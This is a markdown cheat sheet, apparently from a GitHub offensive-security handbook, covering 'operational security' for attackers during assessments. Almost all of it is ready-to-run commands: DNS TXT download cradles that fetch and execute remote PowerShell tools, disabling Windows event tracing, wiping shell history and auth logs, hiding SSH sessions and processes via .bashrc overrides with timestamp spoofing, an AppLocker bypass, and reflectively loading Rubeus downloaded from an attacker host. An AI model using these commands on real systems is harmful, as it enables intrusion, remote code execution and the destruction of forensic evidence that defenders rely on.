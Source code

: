 # Operational Security

## Table of Contents

- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Avoid-Invoke-Expression-IEX-and-Invoke-WebRequest-IWR)
- [Bypassing Event Tracing for Windows (ETW)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Bypassing-Event-Tracing-for-Windows-ETW)
- [Clear Linux History](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Clear-Linux-History)
- [Hiding SSH Sessions](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Hiding-SSH-Sessions)
- [Logfile Cleaning](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Logfile-Cleaning)
- [LOLBAS](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#LOLBAS)
- [.NET Reflection](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#NET-Reflection)
- [Process Hiding](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Process-Hiding)
- [ProxyChains](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#ProxyChains)
- [Save File Deletion](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Save-File-Deletion)
- [Sneaky Directory](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Sneaky-Directory)
- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Windows-Advanced-Threat-Protection-ATP)

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

### Concatinate Payloads

```c
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Clear Linux History

```c
* echo "" > /var/log/auth.log
* echo "" > ~/.bash_history
* rm ~/.bash_history
* history -c
* export HISTFILESIZE=0
* export HISTSIZE=0
* kill -9 $$
* ln /dev/null ~/.bash_history -sf
* ln -sf /dev/null ~/.bash_history && history -c && exit
```

## Hiding SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USERNAME>@<RHOST> 'bash -i'
```

- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```c
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```c
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```c
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```c
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

## .NET Reflection

```c
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## ProxyChains

> https://github.com/haad/proxychains

```c
$ proxychains <APPLICATION>
```

### Configuration

```c
socks4 metasploit
socks5 ssh
```

## Save File Deletion

```c
$ shred -z <FILE>
```

Alternatively:

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Sneaky Directory

```c
$ sudo mkdir -p /mnt/.../<DIRECTORY>
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```
